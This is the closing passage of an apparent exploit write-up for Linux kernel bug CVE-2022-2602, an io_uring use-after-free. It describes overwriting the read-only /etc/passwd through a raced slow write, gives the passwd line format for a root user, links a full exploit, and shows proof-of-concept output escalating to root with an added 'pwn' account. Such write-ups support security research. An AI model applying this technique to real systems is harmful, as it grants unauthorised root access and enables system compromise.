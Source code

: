 #### Release the slow_write lock
Now that we have replaced the victim chunk with a specific file, when the slow write operation finishes, the lock is released and the io_uring kernel thread acquires the lock and starts writing into our re-allocated file ("/etc/passwd"), also if it's allocated as read-only.

#### Overwrite /etc/passwd
First, in order to just append text into "/etc/passwd" and not overwrite it from scratch, our victim file (the one that we have used as the victim chunk in our Use-After-Free) has been opened with the `O_APPEND` flag, that append text at the end of the file.
What can we write into it? We can write a simple user using the following format, that will not require the password into ""/etc/shadow":
```bash
<USER>:<HASH>:0:0:/root:/root:/bin/sh
```

#### POC || GTFO
You can find the full exploit here: https://github.com/kiks7/CVE-2022-2602-Kernel-Exploit.

```bash
/ $ uname -a
Linux (none) 5.15.74 #20 SMP Sat Nov 19 14:01:51 CET 2022 x86_64 GNU/Linux
/ $ cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
user:x:1000:1000:kiks,,,:/home/user:/bin/sh
/ $ id
uid=1000(user) gid=1000 groups=1000
/ $ /poc
[P] P1
[P] P2
[*] Creating thread for slow write on /tmp/rwA
[*] Sleeping while waiting that slow_write starts ..
[*][T1] Starting slow write ..
[*][T1] Slowing write...
[P] P3/P4
[P] P5
[*] Triggering unix_gc and freeing the registered fd
[*] unix_gc finished !
[P] P6
[*] Spraying target files ..
[*] Wait that slow_write finishes ..
[P] P7/P8/P9
[+][T1] slow_write finished
[+] Slow write finished .. closing io_uring fd
[*] Waits that the io_uring thread continues the writev operation while the process is still alive
[+] Everything done !
Password:
uid=0(root) gid=0 groups=0
[+] DONE
/ $ cat /etc/passwd
root:x:0:0:root:/root:/bin/sh
user:x:1000:1000:kiks,,,:/home/user:/bin/sh
pwn:$6$pwn$5m1zBfEzD3xCg.wOtCtlKePwQL3Y5UiVAQBEAIv67Ir9JfZjmjO7XwzMzk0IcRoPjtWg.k2ytbimpKp1s/RB2/:0:0:/root:/root:/bin/sh
/ $
```
